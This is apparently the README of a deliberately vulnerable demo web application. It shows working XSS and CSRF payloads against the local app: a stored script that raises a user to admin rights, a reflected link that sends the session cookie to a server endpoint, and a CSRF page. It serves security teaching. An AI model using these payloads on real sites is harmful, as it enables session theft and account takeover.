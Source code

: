 ##Starting xs_demo

Please note: Maven is required to use this software.

* Go to the app folder and run the Maven Jetty Plugin by using the following command: `$ mvn jetty:run`
* Deployed URL: `http://localhost:8080/`
* To stop the running Jetty server: `$ Ctrl + C`

##Persistent XSS

* Log in as user (username: user, password: user) and go to the **Edit User** dialog
* Copy the following script and paste it to the field **Additional Info**
* `<script>$.post( "http://localhost:8080/user_edit", { username: "user", password: "user", password2: "user", email: "user@web.de", newUser: "false", vip: "true" } )</script>`

* Log in as admin (username: admin, password: admin) and got to the **User List** dialog. The script above will be executed now sending a post request to the server and gives admin rights to the user.

##Non-persistent XSS

* As admin open the following link
* `http://localhost:8080/home?q=%3Cscript%3E$.get%28%22http://localhost:8080/save%22,%20{%20in:%20document.cookie%20}%29%3C/script%3E`
* The cookie of the current session will be written in the file **buffer.txt** that is located in the app folder

##CSRF

* As admin open the following static html page
* `http://localhost:8080/static/csrf_example.html`
* The script that will be executed after the image on the page is loaded is the same script like in the persistent xss example. This will give admin rights to the standard user again.

